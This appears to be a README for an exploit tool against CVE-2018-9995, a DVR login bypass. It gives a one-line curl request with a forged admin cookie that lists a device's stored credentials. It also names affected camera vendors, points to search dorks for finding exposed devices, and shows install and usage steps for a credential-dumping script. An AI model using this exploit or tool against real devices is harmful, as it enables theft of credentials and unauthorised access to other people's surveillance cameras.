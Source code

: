 [Tool] show DVR Credentiales
[*] Exploit Title:       "CAm" 
[*] CVE:                 CVE-2018-9995
[*] CVSS Base Score v3:  7.3 / 10
[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
[*] Date:                09/04/2018
[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )
DVR_wall

Exploit:
	$> curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"

tested in DVR (banner/vendor ?):
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus,  - Security. Never Compromise !! - 
Night OWL
DVR Login
HVR Login
MDVR Login
On the Wild:
DVR_dorks_0 DVR_dorks_2 DVR_dorks_1 DVR_dorks_3

Possible Banners frontend (web):
DVR_login_1 DVR_login_2 DVR_login_3 DVR_login_4 DVR_login_5 DVR_login_6 DVR_login_7 DVR_login_8 DVR_login_10

Indoor:
DVR_indoor_1 DVR_indoor_2 DVR_indoor_3 DVR_indoor_4 DVR_indoor_5 DVR_indoor_6 DVR_indoor_7

TOOL: "Show all Cam"
Quick start
usr@pwn:~$ git clone https://github.com/YoZSploit/MOrooc/
usr@pwn:~$ cd CVE-2018-9995_dvr_credentials
usr@pwn:~$ pip install -r requirements.txt
help
usage: Cam.py [-h] [-v] --host HOST [--port PORT]

[+] Obtaining Exposed credentials

optional arguments:
  -h, --help     show this help message and exit
  -v, --version  show program's version number and exit
  --host HOST    Host
  --port PORT    Port

[+] Demo: python CAm.py --host 192.168.1.101 -p 81
Pocs (Output) :
DVR_poc_4 DVR_poc_3 DVR_poc_2 DVR_poc_1

Blog:
http://misteralfa-hack.blogspot.cl/2018/04/update-dvr-login-bypass-cve-2018-9995.html

I see you... ! xd

